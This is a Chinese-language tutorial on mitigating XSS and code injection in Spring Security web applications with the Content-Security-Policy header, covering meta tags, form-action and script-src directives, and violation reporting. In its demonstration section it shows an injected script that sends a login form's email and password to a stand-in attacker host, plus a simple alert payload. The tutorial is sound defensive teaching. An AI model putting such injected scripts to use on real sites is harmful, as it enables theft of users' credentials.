



## 1. 概述

跨站点脚本或XSS攻击一直排在最常见的十大网络攻击中。当Web服务器处理用户的恶意输入而不对其进行验证或编码并将其呈现在页面上时，就会发生XSS攻击。
与XSS攻击一样，代码注入和点击劫持通过窃取用户数据并冒充用户数据对Web应用程序造成严重破坏。

在本教程中，让我们学习如何使用Content-Security-Policy头来减轻基于Spring Security的Web应用程序中的代码注入风险。

## 2. Content Security Policy

**内容安全策略(CSP)是一种HTTP响应头，它可以显著减少现代浏览器中的XSS、Clickjacking等代码注入攻击**。

Web服务器指定浏览器可以使用Content-Security-Policy头呈现的资源的allowlist。这些资源可以是浏览器呈现的任何东西，例如CSS、Javascript、图像等。

此header的语法是：

```text
Content-Security-Policy: <directive>; <directive>; <directive> ; ...
```

此外，我们可以将此策略设置为HTML页面的<meta\>标签的一部分：

```text
<meta http-equiv="Content-Security-Policy" content="<directive>;<directive>;<directive>; ...">
```

**这些指令中的每一个都包含一个具有多个值的key。可以有多个指令，每个指令用分号(;)分隔**：

```text
Content-Security-Policy: script-src 'self' https://tuyucheng.com; style-src 'self';
```

在这种情况下，我们有两个指令(script-src和style-src)，而指令script-src有两个值(‘self’和https://tuyucheng.com)。

## 3. 漏洞演示

现在，让我们看看XSS和代码注入漏洞的例子。

### 3.1 登录表单

通常，我们会在Web应用程序会话超时时将用户重定向到登录页面。此外，标准登录表单带有用户名/密码字段和提交按钮：

```html
<span> Session time out. Please log in.</span>
<form id="login" action="/login">
    <input type="email" class="form-control" id="email">
    <input type="password" class="form-control" id="password">
    <button type="submit">Login</button>
</form>
```

### 3.2 代码注入

用户可以在提供用户输入的同时，通过表单字段注入可疑代码。例如，假设一个文本框接收注册表单中的用户名。

用户可以输入<script\>alert(“this is not expected”)</script\>并提交表单。
随后，当表单显示用户名时，它会执行脚本(在这种情况下会发出警告消息)。该脚本甚至可以加载可能造成更严重危害的外部脚本。

同样，假设我们的表单字段验证不足。用户可以利用这一点并将恶意Javascript代码注入DOM(文档对象模型)：

```html
<span> Session time out. Please login.</span>
<form id="login" action="/login">
    <input type="email" class="form-control" id="email">
    <input type="password" class="form-control" id="password">
    <button type="submit">Login</button>
</form>
<script>
    let form = document.forms.login;
    form.action = "https://youaredoomed.com:9090/collect?u=" + document.getElementById('email').value
            + "&p=" + document.getElementById('password').value;
</script>
```

当点击登录按钮时，注入的Javascript代码会将用户重定向到恶意站点。

当一个毫无戒心的用户提交表单时，他会被重定向到https://youaredoomed.com并暴露他的凭据。

### 3.3 Demo

通常，在会话超时后，服务器会将用户重定向到登录页面以输入他的凭据。但是，注入的恶意代码会将用户重定向到一个非预期的站点以及用户的凭据：

<video src="../assets/csp.mp4"></video>

## 4. Spring Security

在本节中，让我们讨论缓解这些代码注入漏洞的方法。

### 4.1 HTML meta标签

在前面的示例中添加Content-Security-Policy头会阻止将表单提交到恶意服务器。因此，让我们使用<meta\>标签添加此header并检查其行为：

```html

<meta http-equiv="Content-Security-Policy" content="form-action 'self';">
```

添加上述标签可防止浏览器将表单提交到其他源：



**尽管meta标签可以缓解XSS和代码注入攻击，但它们的功能有限。
例如，我们不能使用meta标签来报告违反Content-Security-Policy的行为**。

之后我们会通过设置Content-Security-Policy头利用Spring Security的强大功能来减轻这些风险。

### 4.2 Maven依赖

```text
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-security</artifactId>
    <version>2.6.1</version>
</dependency>
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
    <version>2.6.1</version>
</dependency>
```

### 4.3 配置

接下来，我们通过继承WebSecurityConfigurerAdapter来定义Spring Security配置：

```java

@Configuration
public class ContentSecurityPolicySecurityConfiguration extends WebSecurityConfigurerAdapter {

    @Override
    protected void configure(HttpSecurity http) throws Exception {
        http.headers()
                .xssProtection()
                .and()
                .contentSecurityPolicy("form-action 'self'");
    }
}
```

在这里，我们声明了contentSecurityPolicy以将表单操作限制在同一源。

### 4.4 Content-Security-Policy响应头

完成必要的配置后，让我们验证Spring Security提供的安全性。
为此，我们打开浏览器的开发者工具(按F12)，单击Network选项卡，然后打开URL http://localhost:8080：


现在，我们填写表单并提交：



**使用Content-Security-Policy头后，浏览器会阻止提交请求并降低泄露凭据的风险**。

同样，我们可以配置Spring Security以支持不同的指令。例如，下面代码指定浏览器仅从同一源加载脚本：

```text
.contentSecurityPolicy("script-src 'self'");
```

类似地，我们可以指示浏览器只从同一源和somecdn.css.com下载CSS：

```text
.contentSecurityPolicy("style-src 'self' somecdn.css.com");
```

此外，我们可以在Content-Security-Policy头中组合任意数量的指令。例如，要限制CSS、JS和表单操作，我们可以指定：

```text
.contentSecurityPolicy("style-src 'self' somecdn.css.com; script-src 'self'; form-action 'self'")
```

### 4.5 报告

除了指示浏览器阻止恶意内容外，服务器还可以要求浏览器发送被阻止内容的报告。
因此，让我们将report-uri指令与其他指令结合起来，以便浏览器在内容被阻止时发送POST请求。

浏览器将以下内容发布到report-uri中定义的URL：

```json
{
    "csp-report": {
        "blocked-uri": "",
        "document-uri": "",
        "original-policy": "",
        "referrer": "",
        "violated-directive": ""
    }
}
```

因此，我们需要定义一个API来接收浏览器发送的此违规报告，并记录请求以进行说明和澄清。

我们应该注意到，尽管指令report-uri已被弃用，取而代之的是report-to，但大多数浏览器目前还不支持report-to。
因此，我们将同时使用report-uri和report-to指令进行报告。

首先，修改我们的Spring Security配置：

```java

@Configuration
public class ContentSecurityPolicySecurityConfiguration extends WebSecurityConfigurerAdapter {
    private static final String REPORT_TO = "{\"group\":\"csp-violation-report\",\"max_age\":2592000,\"endpoints\":[{\"url\":\"https://localhost:8080/report\"}]}";

    @Override
    protected void configure(HttpSecurity http) throws Exception {
        http.csrf().disable()
                .authorizeRequests()
                .antMatchers("/**")
                .permitAll()
                .and()
                .headers()
                .addHeaderWriter(new StaticHeadersWriter("Report-To", REPORT_TO))
                .xssProtection()
                .and()
                .contentSecurityPolicy("form-action 'self'; report-uri /report; report-to csp-violation-report");
    }
}
```

我们首先使用csp-violation-report定义了一个报告对象组并关联了一个端点。
接下来，作为.contentSecurityPolicy()的一部分，我们使用这个组名作为report-to指令的值。

现在，当我们在浏览器中打开页面时，我们会看到：



接下来，让我们填写表单并单击登录按钮。正如预期的那样，浏览器会阻止请求并发送报告。在服务器控制台上，我们可以看到类似下面的日志输出：

```text
Report: {"csp-report":{"blocked-uri":"https://youaredoomed.com:9090/collect
?u=jhon.doe@mail.com&p=password","document-uri":"https://localhost:8080/","original-policy":"form-action 'self'; 
report-uri https://localhost:8080/report","referrer":"","violated-directive":"form-action"}}
```

格式化JSON后的报告如下：

```json
{
    "csp-report": {
        "blocked-uri": "https://youaredoomed.com:9090/collect?u=jhon.doe@mail.com&p=password",
        "document-uri": "https://localhost:8080/",
        "original-policy": "form-action 'self'; report-uri https://localhost:8080/report",
        "referrer": "",
        "violated-directive": "form-action"
    }
}
```

## 5. 总结

在本文中，我们了解了如何保护我们的Web应用程序免受点击劫持、代码注入和XSS攻击。

虽然没有针对这些攻击的完全保护，但Content-Security-Policy头有助于缓解大多数此类攻击。
值得注意的是，迄今为止，大多数现代浏览器并不完全支持此标头。因此，设计和构建具有可靠安全原则和标准的应用程序至关重要。